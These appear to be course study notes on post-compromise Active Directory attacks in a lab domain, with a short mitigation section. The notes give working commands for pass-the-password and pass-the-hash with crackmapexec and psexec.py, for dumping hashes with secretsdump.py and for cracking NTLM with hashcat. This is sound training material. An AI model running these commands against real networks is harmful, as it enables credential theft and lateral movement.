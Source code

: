 # 17. Attacking Active Directory: Post Compromise Attacks 

## Pass the Hash/ Password Overview

- If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks
- Pass around the password on all machines in a subnet.

## Pass the password attacks
- Using crackmapexec:

`crackmapsexec smb 192.168.57.0/24 -u fcastle -d MARVEL.local -p Password1` `--sam` 

`psexec.py marvel/fcastle:Password1@192.168.57.6`


## Dumping Hashes with secretsdump.py

- Part of Impacket toolkit

`secretsdump.py marvel/fcastle:Password1@192.168.57.5`


## Cracking NTLM Hashes with Hashcat

- You can pass NTLM, you cannot pass around NTLMv2 hashes

`hashcat -m 1000 hashes.txt rockyou.txt -O`

- Blank password in hashcat means it is disabled

## Pass the Hash Attacks

- Pass the hash around the whole network to see which machines authenticate with the hasg
`crackmapexec smb 192.168.57.0/24 -u "Frank Castle" -H <hash> --local-auth`

- Attempt to gain a shell using the authenticated hashes
`psexec.py "frank castle":@192.168.57.6 -hashes <full hash>`

## Pass the Hash/Password Mitigation

![](https://i.imgur.com/2Sq4cxk.png)


## Token Impersonation overview

### What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. 
- Think cookies for computers
- Tokens exist until computer is rebooted
### Two Types:
- Delegate: Created for logging into a machine or using remote desktop
- Impersonate: "non-interactive" such as attaching a network drive or a domain logon script
